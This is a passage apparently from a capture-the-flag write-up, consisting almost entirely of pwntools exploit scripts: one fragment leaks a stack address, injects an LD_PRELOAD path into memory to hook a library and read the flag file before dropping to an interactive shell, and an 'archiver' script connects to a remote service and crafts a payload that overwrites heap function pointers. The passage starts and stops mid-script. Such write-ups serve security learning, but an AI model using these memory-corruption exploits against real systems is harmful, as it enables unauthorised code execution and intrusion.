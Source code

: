 ```python

slot()
p = [ '1' , '+' , '+' , '1' , '+' , '1' , '1' , '1'  ]
lot( p )

y.recvuntil( '===================' )
y.recvuntil( '===================\n' )
stk = int( y.recvuntil( ' :' )[:-2] )
y.recvline()
stk += int( y.recvuntil( ' :' )[:-2] ) << 32
success( 'stack -> %s' % hex( stk ) )

mer( ('a' * 0x40 + "LD_PRELOAD=./" + hook_so + version ).ljust( 0x128 , '\x00' ) + p64( stk + 0xb0 ) + p64( 0 ) ) 

y.sendlineafter( '>' , '5' )
y.sendlineafter( 'press any key' , '7' ) # hooked !

y.sendline( 'cat ../f*' )

y.interactive()
```
### archiver

> yuawn, tens
> 
* flag.py

```python
#!/usr/bin/env python
from pwn import *

# YouNeedReallyGoodBugToBreakASLR!!

context.arch = 'amd64'
host , port = '110.10.147.111' , 4141
y = remote( host , port )


def read_heap( count , data ):
    return p8( (0<<6) + count ) + data

def store_heap( i ):
    return p8( (3<<6) + i )

def load_heap( i , j ):
    return p8( (1<<6) + i ) + p8( j )

def new_heap_loop( count ):
    return p8( (2<<6) + count )


p = ''
p += "\xc0\xd3\x94#2019"
p += p64( 0x77777770 )

p += store_heap( 0x34 )           # store output_func() to heap
p += load_heap( 0x33 , 1 )        # load it to Compress->size

p += new_heap_loop( 0x1c0 / 8 )   # Compress->size += 0x1c0 -> output_func() + 0x1c0 = cat_falg()

p += store_heap( 0x33 )           # store cat_flag() to heap 
p += load_heap( 0x34 , 1 )        # load cat_flag() to Compress->func_ptr
```